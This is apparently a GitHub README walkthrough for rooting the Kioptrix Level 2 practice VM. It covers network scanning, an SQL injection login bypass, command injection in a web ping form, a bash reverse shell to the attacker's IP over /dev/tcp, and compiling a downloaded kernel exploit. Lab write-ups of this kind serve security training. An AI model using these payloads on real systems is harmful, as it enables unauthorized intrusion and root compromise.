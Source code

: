 # Kioptrix-level-2
  
this Kioptrix VM Image is an easy challenge. The object of the game is to acquire root access via any means possible (except actually hacking the VM server or player). The purpose of these games are to learn the basic tools and techniques in vulnerability assessment and exploitation. There are more ways than one to complete the challenges.
 
##  Gain root access on this machine:  ##

####  Start the Kioptrix VM on VirtualBox or VMware ####
 ![Kioptrix_Level_1-1](https://user-images.githubusercontent.com/58820314/112413283-9997c200-8d28-11eb-877e-4c53a79bb04e.png)
 
 • Know your IP and interface using this command : **sudo ifconfig**
 ![1](https://user-images.githubusercontent.com/58820314/112559678-264e8880-8dda-11eb-8fec-2aaa8ea44a23.png)

 • Discover the Network to obtain the IP of this machine with : **sudo netdiscover -i eth0** 
  ![2](https://user-images.githubusercontent.com/58820314/112559689-2f3f5a00-8dda-11eb-8e10-20b8d3712b41.png)
  ![3](https://user-images.githubusercontent.com/58820314/112559732-48e0a180-8dda-11eb-98f6-ee6c2733980c.png)

• Next step is to scan for vulnerabilities using **Nmap** by this command: **nmap -A -T4 192.168.3.132**
![4](https://user-images.githubusercontent.com/58820314/112559782-631a7f80-8dda-11eb-82b3-34276d19a3bd.png)

 ### we will open the web page of this machine and try some **SQL and command injection**   ###
  ### we are notice that SQL injection is : **'or'1'='1** at **Username** and **Password** fields  ###
 ![5](https://user-images.githubusercontent.com/58820314/112559901-a07f0d00-8dda-11eb-8214-152cb7486060.png)
  ### Now we are tying **Command Injection** code : **ping ; id** ### 
  ![6](https://user-images.githubusercontent.com/58820314/112560120-269b5380-8ddb-11eb-8f7d-c0777d78e2bd.png)
### Here we have the output is showing that the user is **apache** ###
![7](https://user-images.githubusercontent.com/58820314/112560193-521e3e00-8ddb-11eb-9ae9-34174ab6bd7a.png)
### Now we will try to listen on specific port like : 800  using reverse shell ###
### commands foe reverse shell are : **sudo nc -lvnp 800** and on the field of web console :**ping ; bash -i >& /dev/tcp/192.168.3.131/800 0>&1** ###
![9](https://user-images.githubusercontent.com/58820314/112560379-c0fb9700-8ddb-11eb-8d8c-4cfcb4f63ff5.png)
![8](https://user-images.githubusercontent.com/58820314/112560392-c527b480-8ddb-11eb-9fec-a6a39f03a7b5.png)
### The Next step is to make the shell more interactive and  stable with this command : **python -c 'import pty;pty.spawn("/bin/bash")'** ###
### The other commands used to know the  **type of kernel** , **OS operated** , **Version of kernel**   
![10](https://user-images.githubusercontent.com/58820314/112561081-29974380-8ddd-11eb-9afa-8761df3cd0b3.png)
### Now move the exploit file  to  **/var/www/html/** to be downloaded on the machine using this command ****wget http://192.168.3.132****
### at the next step to run the **C** exploit file using **gcc compiler** with this command **gcc k.c** and the output is **a.out** file  
### The last step is to Execute the output file with this command : **./a.out** . 
![11](https://user-images.githubusercontent.com/58820314/112987084-9a828680-9162-11eb-9cb2-c63ae340e5f4.png)

# Best of luck #
